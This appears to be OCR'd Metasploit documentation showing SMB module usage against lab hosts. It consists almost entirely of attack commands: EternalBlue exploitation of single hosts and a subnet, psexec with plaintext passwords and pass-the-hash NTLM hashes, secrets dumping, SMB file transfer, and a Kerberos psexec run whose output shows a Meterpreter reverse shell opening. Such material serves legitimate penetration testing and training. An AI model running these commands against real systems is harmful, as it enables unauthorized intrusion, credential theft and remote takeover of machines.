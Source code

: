 `
use exploit/windows/smb/ms17_010_eternalblue
run 10.10.10.23 lhost=192.168.123.1
run 10.10.10.0/24 lhost=192.168.123.1 lport=5000
run smb://user:pass@10.10.10.1/ lhost=192.168.123.1
run smb://domain;user:pass@10.10.10.1/ lhost=192.168.123.1
`

`
use exploit/windows/smb/psexec
run smb://user:pass8@192.168.123.13 lhost=192.168.123.1 lport=5000
`

`
use exploit/windows/smb/psexec
run smb://Administrator:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6@10.10.10.161 lhost=10.10.14.13 lport=5000
`

`
use auxiliary/gather/windows_secrets_dump
run smb://user:pass@192.168.123.6
`

`
use auxiliary/gather/windows_secrets_dump
run smb://Administrator:aad3b435b51404eeaad3b435b51404ee:15feae27e637cb98ffacdf0a840eeb4b@192.168.123.1
`

`
use auxiliary/admin/smb/download_file
run smb://a:p4$$w0rd@192.168.123.13/my_share/helloworld.txt
`

`
use auxiliary/admin/smb/upload_file
echo "my file" > local_file.txt
run smb://a:p4$$w0rd@192.168.123.13/my_share/remote_file.txt lpath=./local_file.txt
`

`msf
msf6 > use exploit/windows/smb/psexec
msf6 exploit(windows/smb/psexec) > run rhost=192.168.123.13 username=Administrator password=p4$$w0rd smb::auth=kerberos domaincontrollerrhost=192.168.123.13 smb::rhostname=dc3.demo.local domain=demo.local

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] 192.168.123.13:445 - Connecting to the server...
[*] 192.168.123.13:445 - Authenticating to 192.168.123.13:445|demo.local as user 'Administrator'...
[+] 192.168.123.13:445 - 192.168.123.13:88 - Received a valid TGT-Response
[*] 192.168.123.13:445 - 192.168.123.13:445 - TGT MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230118120911_default_192.168.123.13_mit.kerberos.cca_474531.bin
[+] 192.168.123.13:445 - 192.168.123.13:88 - Received a valid TGS-Response
[*] 192.168.123.13:445 - 192.168.123.13:445 - TGS MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230118120911_default_192.168.123.13_mit.kerberos.cca_169149.bin
[+] 192.168.123.13:445 - 192.168.123.13:88 - Received a valid delegation TGS-Response
[*] 192.168.123.13:445 - Selecting PowerShell target
[*] 192.168.123.13:445 - Executing the payload...
[+] 192.168.123.13:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175686 bytes) to 192.168.123.13
[*] Meterpreter session 6 opened (192.168.123.1:4444 -> 192.168.123.13:49738) at 2023-01-18 12:09:13 +0000

meterpreter >
`

